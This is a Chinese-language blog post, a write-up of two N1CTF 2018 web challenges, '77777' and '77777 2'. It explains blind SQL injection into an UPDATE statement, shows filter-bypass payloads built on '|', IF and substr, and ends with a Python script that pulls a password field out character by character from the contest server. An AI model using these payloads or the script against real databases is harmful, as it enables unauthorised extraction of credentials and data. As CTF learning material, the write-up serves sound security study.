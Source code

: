 ```yaml
---
layout: post
title: "N1CTF 77777 writeup"
date: 2018-03-12 22：40
categories: jekyll update
---
```


# 前言
&emsp;&emsp;这是我及我所在的团队第一次参加`正式`的CTF比赛，所取得的成绩也还算满意，比赛过程中作者负责`web`方向，比赛中的成果就是两道`77777`。

### 77777
&emsp;&emsp;题目描述：
<div align="center">
    <img src="/images/posts/n1ctf/1.png" >  
</div>
<div align="center">
    <img src="/images/posts/n1ctf/2.png" >  
</div>
&emsp;&emsp;这道题最坑的就是一开始`没有判断出是否注入成功的依据`，后面经师兄指导才发现依据就是注入的数字是否已经改变，当然这道题的环境官方也说明每个队注入`没有隔离开`，造成即使注入成功也可能被别的队刷走，从而影响判断。

&emsp;&emsp;又因为它是`sptintf("xxx%d%s")`，所以注入应该在`str`的地方，也就是在`hi`中进行注入，payload：`hi=000 where ord(substr(password, 1, 1))>100`，因为是在`update users set`中注入，所以这里不需要再使用`union,select`等方法了。完整的payload如下图：
<div align="center">
    <img src="/images/posts/n1ctf/3.png" >  
</div>
&emsp;&emsp;如果注入成功，则会返回你的`flag`字段，如：
<div align="center">
    <img src="/images/posts/n1ctf/4.png" >  
</div>
&emsp;&emsp;由于这个题的环境不稳定，不太适合脚本的判断，所以，就手工注入一遍了。

### 77777 2
&emsp;&emsp;这道题跟上一道提供的描述是一样的，不同的是对`hi`进行了更严格的过滤，上一道的payload就无效了。

&emsp;&emsp;这道题过滤了`and or || & &&`（为了不产生二义，这里用空格分隔），但是唯独没有过滤掉`|`。所以我们可以选择`|`进行`位注入`。然后在检测一下，没有被过滤的是：`substr select from if`，所以考虑用`if`替代`where`进行判断。

&emsp;&emsp;经过一轮苦逼的测试，终于搞出一个payload：`hi=000 |  IF (substr((select substr( pw from 1)),1,1)>'z',1,0)`，这里`( pw`中间一定要有`空格`，不然无法绕过。另一个要说的就是`pw from 1`，它会返回`pw字段从1开始的所有值`。如：
```
pw = 'flag{123456}'
pw from 1 ---> flag{123456}
```

&emsp;&emsp;payload：
<div align="center">
    <img src="/images/posts/n1ctf/5.png" >  
</div>
&emsp;&emsp;判断的依据是返回的数字的最后一位，如：
<div align="center">
    <img src="/images/posts/n1ctf/6.png" >  
</div>
&emsp;&emsp;如果是返回错误则是如下：
<div align="center">
    <img src="/images/posts/n1ctf/7.png" >  
</div>
<div align="center">
    <img src="/images/posts/n1ctf/8.png" >  
</div>
>另一个tips就是数字的后一位一定要`0`，不然如果是`1`的话就无法判断了。`1 |`任何也是真。

&emsp;&emsp;再然后就是逐位的判断，有些数字会被过滤掉，这点上不知道是我的payload有问题还是本来就是这样。。。。
<div align="center">
    <img src="/images/posts/n1ctf/9.png" >  
</div>
&emsp;&emsp;如上，逐位比较的时候使用`+1`的方法，如果直接用2,3,4,...的话有些数字`会被过滤`，还有就是有些字符也会被过滤，但无关flag字段。
&emsp;&emsp;附上脚本：
```python
# -*- coding:utf-8 -*-
import requests

url = 'http://47.52.137.90:20000/'
flag = ''

for i in range(1, 50):
    lc = ''
    for a in range(i):
        lc += '+1'
    lc = lc[1:]
    sql = '000 |  IF (substr((select substr( pw from 1)),{0},1)>\'{1}\',1,0)'
    for ch in range(33, 128):
        sqli = sql.format(lc, chr(ch))
        data = {
            'flag': 123,
            'hi': sqli
        }
        # print(data)
        html = requests.post(url, data=data)
        text = html.text
        # print(text)
        if '123000' in text:
            flag += chr(ch)
            print(flag)
            break
        else:
            pass
```

